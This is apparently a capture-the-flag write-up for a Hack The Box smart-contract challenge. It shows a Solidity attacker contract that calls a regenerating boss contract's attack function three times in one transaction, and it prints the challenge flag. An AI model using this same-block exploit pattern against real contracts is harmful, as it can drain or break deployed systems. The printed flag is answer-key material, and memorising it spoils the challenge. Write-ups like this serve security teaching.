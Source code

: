 ```yaml
---
title: hacqueen-vs-eldorion
date: 2025-03-26
description: A glitter-fueled showdown between Hacqueen and a self-healing smart contract beast. Spoiler: the unicorn never miss.
tags: ["Blockchain", "Smart Contract", "CTF", "HTB"]
---
```


# 🌈✨ Hacqueen vs Eldorion: Bytes, Bravery & a Battle Unicorn ✨🌈

![Hacqueen vs Eldorion](/mnt/data/A_vibrant_digital_illustration_with_elements_of_fa.png)

This HTB challenge was pure drama: a pixel-perfect realm, an overpowered regenerating beast, and one fabulous hacker armed with Web3, glitter, and Python.

> *Welcome to the realms of Eldoria, adventurer. You’ve found yourself trapped in this mysterious digital domain, and the only way to escape is by overcoming the trials laid before you. But your journey has barely begun, and already an overwhelming obstacle stands in your path. Before you can even reach the nearest city, seeking allies and information, you must face Eldorion, a colossal beast with terrifying regenerative powers. This creature, known for its "eternal resilience" guards the only passage forward. It's clear: you must defeat Eldorion to continue your quest.*

🎯 **Goal**: Defeat Eldorion — a smart contract boss that heals every time a new block is mined.

Sounds impossible? Not for Hacqueen. Let’s ride. 🦄💻

---

## 🔍 Contract Breakdown

```solidity
modifier eternalResilience() {
    if (block.timestamp > lastAttackTimestamp) {
        health = MAX_HEALTH;
        lastAttackTimestamp = block.timestamp;
    }
    _;
}
```

Eldorion has 300 HP. Each attack can only do 100 damage. And it resets health every new block.  
🧠 So we need **three hits in one transaction**.

---

## 🛠️ The Exploit

```solidity
contract Slayer {
    IEldorion public target;

    constructor(address _target) {
        target = IEldorion(_target);
    }

    function slay() external {
        target.attack(100);
        target.attack(100);
        target.attack(100);
    }
}
```

Wrapped into a Python script using Web3.py + solcx, we deploy this contract and call `slay()`.

---

## 🧪 Result

Flag in hand, beast on the floor:

```
HTB{w0w_tr1pl3_hit_c0mbo_ggs_y0u_defe4ted_Eld0r10n}
```

---

## 🦄 Final Glitterprint

✨ One block.  
💥 Three hits.  
👑 All slay, no delay.

Because when Hacqueen and her unicorn ride in... bugs get patched and beasts get rekt.
